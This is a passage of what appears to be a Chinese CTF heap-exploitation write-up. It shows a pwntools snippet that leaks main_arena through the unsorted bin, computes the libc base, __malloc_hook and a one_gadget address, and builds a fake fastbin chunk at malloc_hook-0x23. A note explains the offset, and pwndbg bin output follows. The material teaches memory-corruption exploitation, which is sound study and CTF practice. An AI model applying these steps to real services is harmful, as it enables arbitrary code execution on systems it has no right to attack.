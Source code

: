 ```text
add(0x68,b'a'*0x08)#1 切割unsortedbin 使得2进入unsortedbin泄露

main_arena

dump(2)

leak=u64(r.recv(6).ljust(8,b'\x00'))

print(hex(leak))

gdb.attach(r)

libc_base=leak-(0x3c4b78)#0x7f2c05c6cb78-0x7f2c058a8000

realloc_addr=libc_base+libc.sym['__libc_realloc']

malloc_hook=libc_base+libc.sym['__malloc_hook']

fake_chunk_addr=malloc_hook-0x23

one_gadget=libc_base+0x4526a

print(hex(realloc_addr))

print(hex(fake_chunk_addr))
```

## PS:

这里可以说下为什么fake_chunk_addr=malloc_hook-0x23

这个malloc_hook-0x23刚好可以达到fastbin这个基本上每个程序都是固定的

如下0x7f78812fbaed就是fake chunk的地址处于fastbins

并且非常有意思的是此处正是我们leak处main_arena+88这个地方减去88再减去0x33得的的地址，并且该地址也是我们对堆块输入内容的地址

```text
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55f8ce9d4090 —▸ 0x7f78812fbaed (_IO_wide_data_0+301) ◂— 0x7880fbcea0000000
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

